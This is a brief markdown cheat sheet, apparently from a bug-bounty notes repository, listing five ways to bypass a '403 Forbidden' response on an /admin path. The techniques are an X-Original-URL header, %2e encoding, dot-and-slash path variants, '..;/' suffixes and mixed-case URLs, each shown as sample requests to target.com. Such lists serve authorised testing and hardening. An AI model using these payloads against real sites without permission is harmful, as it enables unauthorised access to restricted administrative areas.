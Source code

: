 # 403 Forbidden Bypass

1. Using "X-Original-URL" header
```
GET /admin HTTP/1.1
Host: target.com
```
Try this to bypass
```
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```

2. Appending **%2e** after the first slash
```
http://target.com/admin => 403
```
Try this to bypass
```
http://target.com/%2e/admin => 200
```

3. Try add dot (.) and slash (/) in the URL
```
http://target.com/admin => 403
```
Try this to bypass
```
http://target.com/admin/. => 200
http://target.com//admin// => 200
http://target.com/./admin/./ => 200
```

4. Add "..;/" after the directory name
```
http://target.com/admin
```
Try this to bypass
```
http://target.com/admin..;/
```


5. Try to uppercase the alphabet in the url
```
http://target.com/admin
```
Try this to bypass
```
http://target.com/aDmIN
```

Source: [@iam_j0ker](https://twitter.com/iam_j0ker)

